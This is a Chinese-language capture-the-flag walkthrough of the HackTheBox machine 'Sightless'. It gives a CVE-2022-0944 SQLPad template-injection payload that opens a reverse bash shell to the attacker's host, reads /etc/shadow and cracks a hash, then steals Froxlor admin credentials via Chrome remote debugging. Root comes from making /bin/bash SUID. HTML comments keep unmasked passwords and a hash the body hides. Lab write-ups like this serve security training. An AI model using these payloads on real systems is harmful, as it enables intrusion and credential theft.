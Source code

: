 # Sightless

> 本机 IP: 10.11.11.12
>
> 目标 IP: 10.11.11.11
>
> 参考 [wp1](https://blog.csdn.net/m0_52742680/article/details/142123113) [wp2](https://loghmariala.github.io/posts/Sightless/)

```shell
$ nmap -sSVC 10.11.11.11
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.11.11.11]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

$ vi /etc/host
[+] 10.11.11.11 sightless.htb
```

访问 sightless.htb，其中有一个跳转到 sqlpad.sightless.htb

```shell
$ vi /etc/host
[+] 10.11.11.11 sqlpad.sightless.htb
```

访问 http://sqlpad.sightless.htb/ 是一个 SQLPad 组件，搜索存在漏洞 CVE-2022-0944，6.10.1 之前版本存在注入漏洞，可远程执行代码

<!-- [wp](https://blog.csdn.net/m0_52742680/article/details/142123113)，burp抓包可看具体版本为6.10.0 -->

Linux 监听:`nc -lvvp 2333` -> 连接 -> Driver:MySQL -> Database 输入 payload 反弹 shell:

```sql
-- Database 中输入后保存
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.11.11.12/2333 0>&1"') }}
```

反弹成功后显示权限为 root

```shell
# 在 docker 中
/var/lib/sqlpad $ cd /

/ $ ls -al
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint

/ $ ls -alh /.dockerenv
-rwxr-xr-x 1 root root 0 Aug  2 09:30 /.dockerenv
```

有文件`.dockerenv`和`docker-entrypoint`，判断在 docker 中

```shell
$ cat /etc/passwd
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

$ cat /etc/shadow
node:!:19053:0:99999:7:::
michael:⬛⬛⬛:19860:0:99999:7:::
```

<!-- 复制 michael 的密码 hash 值`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`到文件`hash`中进行解密 -->

复制 michael 的密码 hash 值`⬛⬛⬛`到文件`hash`中进行解密

<!-- ```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
insaneclownposse (?)
...
``` -->

```shell
$ john hash -w=/usr/share/wordlists/rockyou.txt
...
⬛⬛⬛ (?)
...
```

<!-- ssh 使用 michael:insaneclownposse 登录成功 -->

ssh 使用 michael:⬛⬛⬛ 登录成功

```shell
michael@sightless:~$ ls
user.txt
```

## Privilege Escalation

```shell
# 无果
# michael@sightless:~$ sudo -l
# michael@sightless:~$ find / -perm -u=s -f type 2>/dev/null
# 还有一个用户 john，UID=1001 但是没权限

michael@sightless:~$ ss -tlnp
...
LISTEN    0    511    127.0.0.1:8080    0.0.0.0:*
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*
...
```

Send-Q=10 的端口后面会用，先将 8080 转发至本地

```shell
# local
$ ssh -L 8080:127.0.0.1:8080 michael@sightless.htb -N -f

# -N：不执行远程命令
# -f：在后台运行SSH会话
```

访问 http://127.0.0.1:8080/ 到 Froxlor 登录界面，无果

上传 pspy64 查看进程信息

```shell
$ scp /root/Desktop/pspy64 michael@sightless.htb:/tmp

michael@sightless:/tmp$ chmod +x pspy64
michael@sightless:/tmp$ ./pspy64
2024/09/13 07:31:24 CMD: UID=1001  PID=1822   | /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1768 --no-sandbox --disable-dev-shm-usage --enable-automation --remote-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1726211554077008 --launch-time-ticks=276762732 --sh
2024/09/13 07:31:24 CMD: UID=1001  PID=1793   | /opt/google/chrome/chrome --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --use-gl=angle --headless --crashpad-handler-pid=1768 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,1365604885317938204,13150205076573000667,262144 --disable-features=PaintHolding --variations-seed-version --enable-logging --log-level=0 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1790   | /opt/google/chrome/chrome --type=gpu-process --no-sandbox --disable-dev-shm-usage --headless --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=1768 --gpu-preferences=WAAAAAAAAAAgAAAMAAAAAAAAAAAAAAAAAABgAAEAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --shared-files --field-trial-handle=3,i,1365604
2024/09/13 07:31:24 CMD: UID=1001  PID=1773   | /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1772   | /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1768 --enable-crash-reporter
2024/09/13 07:31:24 CMD: UID=1001  PID=1768   | /opt/google/chrome/chrome_crashpad_handler --monitor-self-annotation=ptype=crashpad-handler --database=/tmp/Crashpad --url=https://clients2.google.com/cr/report --annotation=channel= --annotation=lsb-release=Ubuntu 22.04.4 LTS --annotation=plat=Linux --annotation=prod=Chrome_Headless --annotation=ver=125.0.6422.60 --initial-client-fd=6 --shared-client-connection
2024/09/13 07:31:24 CMD: UID=1001  PID=1763   | /opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.0ge2G9 data:,
```

进程中开启了谷歌，参考文章[Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)，对其他端口进行转发，其中有个 Send-Q=10 端口 18888

```shell
LISTEN    0    10     127.0.0.1:18888   0.0.0.0:*

$ ssh -L 18888:127.0.0.1:18888 michael@sightless.htb -N -f
```

谷歌，访问`chrome://inspect/#devices`

<!-- Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin/ForlorfroxAdmin -->

Devices -> Configure -> localhost:18888 -> Enable port forwarding -> Done -> Remote Target -> Froxlor -> inspect -> 开发者控制台 Network -> index.php -> payload -> admin:⬛⬛⬛

登录进入 Froxlor -> PHP -> PHP-FPM versions -> Create new PHP version -> php-fpm restart command: chmod 4777 /bin/bash -> save -> System -> Settings -> PHP-FPM -> SAVE -> Click here to continue

```shell
# wait a minute
michael@sightless:~$ ls -al /bin/bash
-rwsrwxrwx 1 root root ... /bin/bash
michael@sightless:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
root.txt
```
